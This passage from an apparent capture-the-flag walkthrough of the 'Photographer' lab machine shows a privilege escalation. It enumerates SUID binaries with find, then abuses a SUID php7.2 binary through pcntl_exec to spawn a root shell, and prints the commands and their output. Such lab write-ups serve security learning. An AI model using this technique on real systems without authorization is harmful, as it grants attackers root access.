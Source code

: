 Privilege Escalation
--------------------

#### Enumeration

Find utility was used to discover SUID files, with one of them being
/usr/bin/php7.2.

```
www-data@photographer:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```

#### Escalation

/usr/bin/php7.2 is then used to summon a new shell by executing an OS command
/bin/sh with a -p flag to make it privileged..

```
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
<ginals/49/01$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"           
# whoami
whoami
root
```

#### Root Flag

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Photographer/media/c4a70bfa3a7619f67112a4c421e5656d.png?raw=true)
